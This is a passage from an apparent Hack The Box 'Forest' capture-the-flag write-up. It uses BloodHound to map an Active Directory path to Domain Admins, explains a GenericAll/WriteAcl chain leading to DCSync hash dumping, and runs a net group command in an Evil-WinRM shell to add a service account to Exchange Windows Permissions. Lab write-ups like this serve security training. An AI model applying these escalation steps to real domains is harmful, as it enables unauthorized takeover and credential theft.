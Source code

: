       home:         /usr/share/neo4j
      config:       /usr/share/neo4j/conf
      logs:         /usr/share/neo4j/logs
      plugins:      /usr/share/neo4j/plugins
      import:       /usr/share/neo4j/import
      data:         /usr/share/neo4j/data
      certificates: /usr/share/neo4j/certificates
      run:          /usr/share/neo4j/run
    Starting Neo4j.
    WARNING: Max 1024 open files allowed, minimum of 40000 recommended. See the Neo4j manual.
    2020-09-10 05:59:52.469+0000 INFO  ======== Neo4j 4.0.7 ========
    2020-09-10 05:59:52.478+0000 INFO  Starting...
    2020-09-10 06:00:06.777+0000 INFO  Bolt enabled on localhost:7687.
    2020-09-10 06:00:06.778+0000 INFO  Started.
    2020-09-10 06:00:11.993+0000 INFO  Remote interface available at http://localhost:7474/
    ```
4. Load our zip file to `bloodhound` and run the query to `Find Shortest Paths to Domain Admins`.
![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/forest/1.gif){: .align-center}
    
    
We can see a path to the domain admin. Let break it down and understand.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/forest/2.png){: .align-center}

1. `svc-alfresco` is a member of `Service Accounts@HTB.LOCAL`. This in turn makes him a member of `Privileged IT Accounts@HTB.LOCAL` and this group makes him a owner of `Account Operators@HTB.LOCAL`
2. `Account Operators@HTB.LOCAL` group members have `GenericAll` permissions on `Exchange Windows Permissions@HTB.LOCAL` which means that any member of group `Account Operators@HTB.LOCAL` can modify, add users etc of the group `Exchange Windows Permissions@HTB.LOCAL`. 
3. Gaining access to `Exchange Windows Permissions@HTB.LOCAL` grants our user the `WriteACl` permission on `HTB.LOCAL`. This can be abused to dump the hashes of all the users. More about this attack can be found [here](https://attack.stealthbits.com/privilege-escalation-using-mimikatz-dcsync)


So our attack will be like this.

1. Add `svc-alfrsco` to `Exchange Windows Permissions@HTB.LOCAL`.  
    ```bash
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" svc-alfresco /add /domain
    The command completed successfully.

    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user svc-alfresco
    User name                    svc-alfresco
    Full Name                    svc-alfresco
    Comment
    User's comment
    Country/region code          000 (System Default)
    Account active               Yes
    Account expires              Never

    Password last set            9/10/2020 11:40:07 AM
    Password expires             Never
    Password changeable          9/11/2020 11:40:07 AM
    Password required            Yes
    User may change password     Yes
